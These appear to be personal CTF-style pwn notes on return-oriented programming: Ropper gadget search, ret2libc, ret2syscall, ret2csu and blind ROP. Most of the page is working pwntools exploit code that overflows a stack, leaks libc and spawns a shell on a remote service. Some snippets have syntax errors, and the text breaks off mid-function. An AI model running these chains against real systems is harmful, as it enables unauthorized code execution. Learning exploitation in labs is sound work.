 
### in progress


# ROP
# how to find Gadgets (Ropper)

<details>
    <summary>Ropper</summary>
        <div>


read the docs!
https://github.com/sashs/Ropper

Ropper is a tool that can display information about binary files in different file formats and can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64).

most usefull commands imo.

`(ropper) file vuln_binary` loads the specified binary into cache and analyze it than cleans up double gadgets. \
`(ropper) search /1/ pop r??` /1/ = search for gadgets with max 1 instruction + ret  \
? means non specific char so this will search for `pop rax`&`pop rdi`&`pop rsi` and so on \
`(ropper) semantic eax==1 !ebx` searches for a gadget that set eax to 1 and does not clobber ebx

</div>
</details>

		
# find Strings in an ELF	
<details>
    <summary>strings</summary>
        <div>
		
searching manually   \
`strings -t x -a /path/to/binary | grep "string you searching"`

</div>
</details>
		
<details>
    <summary>pwntools</summary>
        <div>

in python script
```
binary = ELF('/path/to/binary')
stringaddr = next(binary.search(b'string you searching'))
```
</div>
</details>

# how to pivote the Stack
in progress
# ret2techniques
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>

# ret2libc (dynamically linked ELF)
to use ret2libc we need to know two things
	
1. the exact libc version the ELF uses
2. the base addr of libc in the process
		

to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
(we also need this for finding the base of libc in the process)

since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)
```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
payload += p64(puts@GOT)		#addr puts@GOT
payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
```

this payload will print the libc addr of puts() in the current process.
puts_leak = `leaked addr here`

ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.
we will use a libc database like https://libc.blukat.me/ to find the exact version
libc.blukat will find the libc based of the last 3 nibbles of the leaked addr since these will always be the same 
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/libc_blukat.png">

usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
use `vmmap` to find the libc base

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dbc000 0x00007ffff7de1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de1000 0x00007ffff7f59000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f59000 0x00007ffff7fa3000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa3000 0x00007ffff7fa4000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa4000 0x00007ffff7fa7000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa7000 0x00007ffff7faa000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fb0000 0x0000000000000000 rw- 
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

know_libc_base = `libc base here`		

offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
libc_base = puts_leak - offset

ok we now know the libc version and the exact libc_base inside the current process.
now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

1. setup the argument for system(pointer_binsh) 
2. call the libc function system()

```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
payload += p64(system)			#call the libc system function
```

</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
`syscall(rax,rdi,rsi,rdx)`	
we want to call `execve(pointer_binsh,0,0)` to spawn a shell

so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
1. find the syscall number for execve
2. find a gadget that can write to a pointer like `mov [rdi],rdx`
3. write b'/bin/sh\x00' to a writable addr.
4. setup the registers and than syscall

syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit	`
we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`
we need a gadget that can write to a pointer to write `/bin/sh\x00` string somewhere
we can find such a gadget by using `ropper`

```
ropper /1/ mov [r??],r??
```		
i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.


```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rax)			#set rax to 0x3b
payload += p64(0x3b)
payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
payload += p64(.bss)			#addr where we want to write to
payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
payload += p64(pop_rsi)			#set rsi to 0
payload += p64(0x00)
payload += p64(pop_rdx)			#set rdx to 0
payload += p64(0x00)
payload += p64(syscall)				
```


</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)

the `__libc_csu_init` function is responsible to initialize libc files.
in this function there are some interesting gadgets we can use.

first gadget let us controll some registers with pop

POPGADGET:
his will let us controllrbx,rbp,r12,r13,r14,r15
```
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```

CALLGADGET:
this will let us controll rdx,rsi and edi but we need to meet some conditions 
```         
__libc_csu_init+64	MOV        RDX,R14
__libc_csu_init+67 	MOV        RSI,R13
__libc_csu_init+70 	MOV        EDI,R12D
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
__libc_csu_init+86	ADD        RSP,0x8
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
__libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```


there ase some constrains in the caller gadget 
1.
we want to pass the JNE and dont take it.
```
rbx = 0x00 set to 0 since it will be incremented later
rbp = set to 1 so when compared to the incremented rbx 
```

```
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
```
2.
we want to set r15 = to a valide function pointer rbx will be 0x00
```
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
```


```
putsgot = elf.got['puts']          
putsplt = elf.plt['puts']
pop_rdi = 0x00000000004011f3
pop_rsi_r15 = 0x00000000004011f1
ret = 0x4004e6

def ret2csu(call,rdi,rsi,rdx):
    payload = p64(0x4011ea)         # first call popper gadget

    payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
    payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
    payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
    payload += p64(rsi)            # pop r13 #rsi
    payload += p64(rdx)            # pop r14 #rdx
    payload += p64(putsgot)            # pop r15 

    payload += p64(0x4011d0)        # 2nd call caller gadget

        #__libc_csu_init+64     MOV        RDX,R14
        #__libc_csu_init+67     MOV        RSI,R13
        #__libc_csu_init+70     MOV        EDI,R12D

    payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


        #__libc_csu_init+90     POP        RBX
        #__libc_csu_init+91     POP        RBP
        #__libc_csu_init+92     POP        R12
        #__libc_csu_init+94     POP        R13
        #__libc_csu_init+96     POP        R14
        #__libc_csu_init+98     POP        R15
        #__libc_csu_init+100    RET

    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15

        #__libc_csu_init+100    RET

    payload += p64(pop_rdi)        
    payload += p64(rdi)             # update rdi with correct unconstrained content
    payload += p64(pop_rsi_r15)     
    payload += p64(rsi)             # update rsi with correct unconstrained content
    payload += p64(0x00)

        #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

    payload += p64(call)            # actual wanted function call
    return payload

    rop = b'A'*16
    rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)

```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>

# Blind Return Oriented Programming






<details>
    <summary>BROP (dont have the binary // PIE off // puts() in binary)</summary>
        <div>

# BROP (dont have the binary // PIE off // puts() in binary)
		
Steps of Exploitation:

Puts/Printf() when fd is 0,1,2 stdin,stdout,stderror
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find puts@plt
4. leak the binary


### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```
### find puts-gadget



```
def find_puts(i):                        #puts@plt


    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 



            #this is the plt layout we want to find
            # 0x0000000000400560  puts@plt
            # 0x0000000000400570  setbuf@plt
            # 0x0000000000400580  read@plt
            # 0x0000000000400590  __libc_start_main@plt
            # 0x00000000004005a0  strcmp@plt


    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #first argument for # int puts( char const * string ); puts(rdi) 
    payload += p64(0x400000)                    #points to 0x400000 which should print out 'ELF'
    payload += p64(addr_guess)                  #the addr guess for puts@plt

    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential puts@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    puts = find_puts(i)
    if puts:
        print(f'found puts @ {hex(puts)}')
        break                                   #remove this break if you want to find more potential puts@plt addr.
```

### leak the process with puts()
```
def leak_binary_puts(i,j):


    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(x)
    payload += p64(puts)

    r.recvline()                                         #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            #trys to recv the leak if nothin is recv inc offset by 1 and continue
        if check:
            if check.hex()[:-2] == '':                  
                file.append(b'\x00')
                r.close()
                return int(offset) + 1

            else:
                file.append(check[:-1])                 #append leak without \n
                last_len = int(len(check)-1)            #calculate len of leaked bytes
                r.close()
                return int(offset) + int(last_len)      #increase the offset by leaked num of bytes     
            
        else:
            r.close()
    except:                                             #inc offset by 1 and continue
        print(sys.exc_info()[0])
        r.close()
        return int(offset + 1)

file = []
last_len = 0
offset = 0

for i in range(0xb00):                      
    offset = leak_binary_puts(offset,0x400000)
    print(offset)
    print(f'{hex(i)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```
find the libc verion with https://libc.blukat.me/

```           

def leak(i):        #simple leak function to find all GOT entrys this will print the addr and content of 0x601000 -> 0x601080 in steps of 0x8


    r = remote(ip, port,timeout=1)
    

    payload = b'A'*88                                                   
    payload += p64(pop_rdi)
    payload += p64(i)
    payload += p64(puts)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)

    leak = unpack(r.recvline()[:-1],'all')
    return leak


libc = ELF(/path/to/libc)                               #we want to guess a libc and if we guess right it should have the same last 3 nibbles 

puts_check = hex(libc.symbols['puts'])[-2::]

for i in range(0x10):                                   #loop 0x601000 -> 0x601080
    check = leak(0x601000+i*8)                          #GOT usually starts somewhere here 0x601000
    print(f'{hex(0x601000+i*8)} : {hex(check)}')
    if hex(check)[12:] == puts_check:
        putsgot = (i*8+0x601000)
        print(f'puts_got @ {hex(putsgot)}')
        break


```

and bringing it all together we can pop a shell

```
def pwn():

    #context.log_level = 'debug'

    r = remote(ip, port,timeout=1) 

    pop_rdi = int(brop) + 0x9
    ret = int(brop) + 10

    payload = b'A'*88                               #leak libc_base
    payload += p64(pop_rdi)
    payload += p64(putsgot)
    payload += p64(puts)
    payload += p64(loop)                            #loop back to main
 

    r.recvuntill('Are you blind my friend?\n')      #read the 1st (intendet) "Are you blind my friend?\n"
    r.send(payload)


    leak = unpack(r.recvline()[:-1],'all')          #leak puts
    print(hex(leak))
    libc.address = leak - libc.symbols['puts']      #sets libc base

    print(hex(libc.address))

    r.recvuntil('Are you blind my friend?\n')       #read the (loop) "Are you blind my friend?\n"

    binsh = next(libc.search(b'/bin/sh\x00'))       #ret2libc
    system = libc.symbols['system']

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system)

    r.send(payload)

    inter()
```



</div>
</details>


<details>
    <summary>BROP (dont have the binary // PIE off // puts() not in binary)</summary>
        <div>

# BROP (dont have the binary // PIE off // puts() not in binary)		
		
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find strcmp@PLT (strcmp sets rdx)
4. find write@PLT (let us write to any fd)
5. leak the binary

### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```

```
def find_strcmp(i):
    
    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10 same as finding puts
    addr_guess = i*0x10 + 0x400200                    #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #pop 1st argument for # int strcmp (const char* str1, const char* str2); strcmp(rdi,rsi)
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(pop_rsi_r15)                 #pop 2nd argument   
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(0x00)                        #junk to fill r15
    payload += p64(addr_guess)                  #the addr guess for strcmp@plt
    payload += p64(loop)                        #loop back to main if check for GOOD:GOOD pointers work 
    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    

    try:
        check = r.recvline()                                            #trys to recv if cant recv anything EOF error
        if b'Are you blind my friend?\n' in check:                      #if we can find 'Are you blind my friend?\n' we passed check1 
            r.close()
            print('\n1st check passed good:good')
            
            print(f'2nd check for {hex(addr_guess)} good:bad')
            p = remote(ip,port,timeout=1)

            payload = b'A'*88                                           #same as above but with GOOD:BAD pointers that should crash
            payload += p64(pop_rdi) 
            payload += p64(0x400000)                                    #holds valide pointer to 'ELF'          GOOD
            payload += p64(pop_rsi_r15)
            payload += p64(0x0)                                         #holds invalide pointer to 0x00         BAD
            payload += p64(0x0)
            payload += p64(addr_guess)
            payload += p64(loop)        
            p.readuntil('Are you blind my friend?\n')
            p.send(payload)
                
            try:
                check2 = p.recvline()

                if check2: 
                    print('not passed check2')
                    p.close()
                else:
                    print('not passed check2')
                    p.close()

            except:
                r.close()
                p.close()
                print(f'3nd check for {hex(addr_guess)} bad:good')
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                                       #same as above but with BAD:GOOD pointers that should crash    
                payload += p64(pop_rdi)
                payload += p64(0x0)                                     #holds invalide pointer to 0x00         BAD
                payload += p64(pop_rsi_r15)
                payload += p64(0x400000)                                #holds valide pointer to 'ELF'          GOOD
                payload += p64(0x0)
                payload += p64(addr_guess)
                payload += p64(loop)         
                p.readuntil('Are you blind my friend?\n')
                p.send(payload)

                try:
                    check3 = p.recvline()

                    if check3: 
                        print('not passed check3')
                        p.close()
                    else:
                        print('not passed check3')
                        p.close()

                except:
                    p.close()
                    print(f'4rd check for {hex(addr_guess)} bad:bad')
                    p = remote(ip,port,timeout=1)

                    payload = b'A'*88                                   #same as above but with BAD:BAD pointers that should crash
                    payload += p64(pop_rdi) 
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(pop_rsi_r15)
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(0x0)             
                    payload += p64(addr_guess)
                    payload += p64(loop)         
                    p.readuntil('Are you blind my friend?\n')
                    p.send(payload)
                    try:
                        check4 = p.recvline()

                        if check4: 
                            print('not passed check4')
                            p.close()

                        else:
                            print('not passed check4')
                            p.close()


                    except:
                        p.close()
                        print(sys.exc_info()[0])
                        return addr_guess                               #if all checks were good we return the guess_addr

        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        print(hex(addr_guess))
        r.close()


for i in range(0x50):                                                   # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
        strcmp = find_strcmp(i)
        if strcmp:
            print(f'found strcmp @ {hex(strcmp)}')
            break                                                       #remove this break if you want to find more potential strcmp@plt addr.

 ```

 ```
def find_write()                                #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r = remote(ip, port,timeout=1)  


    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7


                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                    #rdi points to 0x400000 which should hold 'ELF'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400000)                    #rsi points to 0x400000 which should hold 'ELF'
    payload += p64(0x00)                        #junk r15
    payload += p64(strcmp)                      #sets rdx to != 0x00
    payload += p64(pop_rdi)
    payload += p64(0x01)                        #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(addr_guess)
                                                


    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential write@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    write = find_write(i)
    if write:
        print(f'found write @ {hex(write)}')
        break                                   #remove this break if you want to find more potential write@plt addr.
 ```

 
### leak the process with write()
		
```
def leak_binary_write(i,j):

    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7

    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88                                   #pad
    payload += p64(pop_rdi)                             #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                            #rdi points to 0x400000 which should hold '0x00010102464c457f'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400001)                            #rsi points to 0x400001 which should hold '0x0000010102464c45'
    payload += p64(0x00)                                #junk r15
    payload += p64(strcmp)                              #sets rdx to 0x7f

    payload += p64(pop_rdi)
    payload += p64(0x01)                                #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(pop_rsi_r15)
    payload += p64(x)                                   #addr to leak
    payload += p64(0x00)                                #junk r15   
    payload += p64(addr_guess)                          #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            
        if check:
